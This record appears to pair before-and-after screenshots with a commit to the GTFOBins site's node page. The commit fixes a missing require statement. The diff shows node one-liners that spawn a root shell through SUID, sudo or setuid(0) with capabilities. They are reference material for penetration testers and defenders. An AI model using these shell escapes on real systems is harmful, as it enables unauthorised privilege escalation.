

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/node.md, in a window 1280 px wide and 900 px high, scrolled down 1671 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
[Fix] Added missing "require" statement
There is a missing "require" statement for the "child_process" module. Otherwise, the code returns a reference error.

```diff
--- a/_gtfobins/node.md
+++ b/_gtfobins/node.md
@@ -45,7 +45,7 @@ functions:
         ./node -e 'child_process.spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
   sudo:
     - code: |
-        sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
+        sudo node -e 'const { spawn } = require("node:child_process"); spawn("/bin/sh", {stdio: [0, 1, 2]})'
   capabilities:
     - code: |
         ./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
